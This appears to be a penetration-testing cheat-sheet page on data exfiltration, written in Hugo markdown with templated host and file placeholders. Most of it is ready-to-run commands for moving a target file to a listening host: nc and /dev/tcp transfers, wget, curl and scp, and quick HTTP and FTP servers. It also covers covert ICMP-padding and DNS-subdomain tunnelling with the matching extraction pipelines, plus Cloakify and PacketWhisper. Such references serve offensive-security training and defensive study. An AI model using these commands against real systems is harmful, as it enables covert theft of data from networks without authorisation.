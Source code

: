 ```yaml
---
title: Exfiltration
weight: 600
---
```


# Exfiltration

Data exfiltration,
also called data extrusion or data exportation,
is the unauthorized transfer of data
from a device or network.[^mitre-exfiltration]

## Encoding

### Base64

Linux encoding/decoding.

```sh
cat {{< param "war.tfile" >}} | base64 -w0
```

```sh
cat {{< param "war.tfile" >}} | base64 -d
```

{{<details "Parameters">}}
- `-w<col>`:  wrap encoded lines after `<col>` character (default 76).
- `-d`: decode data.
{{</details>}}

Windows encoding/decoding.

```ps
certutil -encode {{< param "war.tfile" >}} output.ext
```

```ps
certutil -decode {{< param "war.tfile" >}} output.ext
```

### Steganography

#### Cloakify [^cloakify]
```sh
python ./cloakify.py {{< param "war.tfile" >}} ./ciphers/topWebsites
```

Alternatively:

```sh
python ./cloakifyFactory
```

## File Transfer

#### wget (recursive)

```sh
wget -r {{< param "war.rhost" >}}:{{< param "war.lport" >}}
```
{{<details "Parameters">}}
- `-r`: Specify recursive download.
{{</details>}}

#### curl
```sh
curl {{< param "war.rhost" >}}/{{< param "war.tfile" >}} -o {{< param "war.tfile" >}}
```
{{<details "Parameters">}}
- `-o <file>`:  Write to `<file>` instead of stdout.
{{</details>}}

#### scp
```sh
scp user@{{< param "war.rhost" >}}:/{{< param "war.tfile" >}} .
```

#### nc

```sh
# Receiver
nc -nvlp {{< param "war.lport" >}} > {{< param "war.tfile" >}}
# Sender
nc -nv {{< param "war.lhost" >}} {{< param "war.lport" >}} < {{< param "war.tfile" >}}
```

{{<details "Parameters">}}
- `n`: don't do DNS lookups.
- `v`: prints status messages.
- `l`: listen.
- `p <port>`: local port used for listening.
{{</details>}}

#### `/dev/tcp` [^devref]
```sh
# Receiver
nc -nvlp {{< param "war.lport" >}} > {{< param "war.tfile" >}}
# Sender
cat {{< param "war.tfile" >}} > /dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}}
```

```sh
# Sender
nc -w5 -nvlp {{< param "war.lport" >}} < {{< param "war.tfile" >}}
# Receiver
exec 6< /dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}}
cat <&6 > {{< param "war.tfile" >}}
```

## Web Servers

### Python

```sh
python -m SimpleHTTPServer {{< param "war.lport" >}}
python3 -m http.server {{< param "war.lport" >}}
```

[Simple HTTP Server with File Upload](https://gist.github.com/touilleMan/eb02ea40b93e52604938)

### Ruby

```sh
ruby -run -e httpd . -p{{< param "war.lport" >}}
```

```sh
ruby -r webrick -e 'WEBrick::HTTPServer.new(:Port => {{< param "war.lport" >}}, :DocumentRoot => Dir.pwd).start'
```

### Perl

```sh
perl -MHTTP::Daemon -e '$d = HTTP::Daemon->new(LocalPort => {{< param "war.lport" >}}) or  +die $!; while($c = $d->accept){while($r = $c->get_request){+$c->send_file_response(".".$r->url->path)}}'
```

{{<hint warning>}}
Install `HTTP:Daemon` if not present with: `sudo cpan HTTP::Daemon`
{{</hint>}}

### PHP

```sh
php -S 127.0.0.1:{{< param "war.lport" >}}
```

### NodeJS

[http-server](https://www.npmjs.com/package/http-server)

```sh
npm install -g http-server
http-server -p {{< param "war.lport" >}}
```

[node-static](https://www.npmjs.com/package/node-static)

```sh
npm install -g node-static
static -p {{< param "war.lport" >}}
```

## FTP Servers

### Python

```sh
pip install pyftpdlib
python3 -m pyftpdlib -p {{< param "war.lport" >}}
```

### NodeJS

```sh
npm install -g ftp-srv
ftp-srv ftp://0.0.0.0:{{< param "war.lport" >}} --root ./
```

## Tunneling

### ICMP

Capture ICMP packets
with the following script:

{{<gist maxrodrigo a7a8c4bd7dfe64eb305b4c70dee70233 >}}

Generate ICMP packets from the file hexdump.

```sh
xxd -p -c 8 {{< param "war.tfile" >}} | while read h; do ping -c 1 -p $h {{< param "war.rhost" >}}; done
```

{{<details "Parameters">}}

`xxd`:
- `-p`: Output  in postscript continuous hexdump style. Also known as plain hexdump style.
- `-c <cols>`: Format `<cols>` octets per line.

`ping`:
- `-c <count>`: Stop after sending `<count>` `ECHO_REQUEST` packets.
- `-p`: You may specify up to 16 "pad" bytes to fill out the packet you send.
{{</details>}}

{{<hint warning>}}
Match `xxd` columns (`-c 8`) with the data sliced (`packet[ICMP].load[-8:]`) in the script.
{{</hint>}}

### DNS

Capture DNS packets data.

```sh
sudo tcpdump -n -i {{< param "war.liface" >}} -w dns_exfil.pcap udp and src {{< param "war.rhost" >}} and port 53
```

{{<hint warning>}}
Remember to point the DNS resolution to where packages are being captured.
{{</hint>}}

Generate DNS queries.

```sh
xxd -p -c 16 {{< param "war.tfile" >}} | while read h; do ping -c 1 ${h}.domain.com; done
```

Extract exfiltrated data.

```sh
tcpdump -r dns-exfil.pcap 2>/dev/null | sed -e 's/.*\ \([A-Za-z0-9+/]*\).domain.com.*/\1/' | uniq | paste -sd "" - | xxd -r -p
```

#### PacketWhisper [^packetwhisper]

Capture packages with `tcpdump`,
as described above.
Cloak, exfiltrate and decloak from the cli.

```sh
sudo packetWhisper.py
```

## Further Reading

- [Python HTTPS Simple Server](https://www.maxrodrigo.com/notes/python-https-simple-server.html)

[^mitre-exfiltration]: “Exfiltration, Tactic TA0010 - Enterprise.” MITRE ATT&CK®, https://attack.mitre.org/tactics/TA0010/.
[^cloakify]: TryCatchHCF. “TryCatchHCF/Cloakify: CloakifyFactory.” GitHub, https://github.com/TryCatchHCF/Cloakify.
[^devref]: “/Dev.” The Linux Documentation Project, https://tldp.org/LDP/abs/html/devref1.html.
[^packetwhisper]: TryCatchHCF. “PacketWhisper.” GitHub, https://github.com/TryCatchHCF/PacketWhisper.
